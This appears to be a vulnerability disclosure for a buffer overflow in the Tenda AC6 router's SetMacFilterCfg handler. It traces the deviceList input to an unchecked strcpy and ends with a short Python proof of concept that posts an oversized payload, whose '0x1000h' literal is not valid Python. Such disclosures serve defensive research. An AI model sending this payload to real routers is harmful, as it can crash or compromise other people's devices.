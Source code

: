 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:


![](../Tenda_AC10U_V1/4.png)

get value from macFilterType , and get into if

![](../Tenda_AC10U_V1/5.png)

get value from deviceList , pass to set_macfilter_rules

![](../Tenda_AC10U_V1/6.png)

pass to set_macfilter_rules_by_one

![](../Tenda_AC10U_V1/7.png)

pass to parse_macfilter_rule

![](../Tenda_AC10U_V1/8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetMacFilterCfg"
payload = 'A'*0x1000h + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
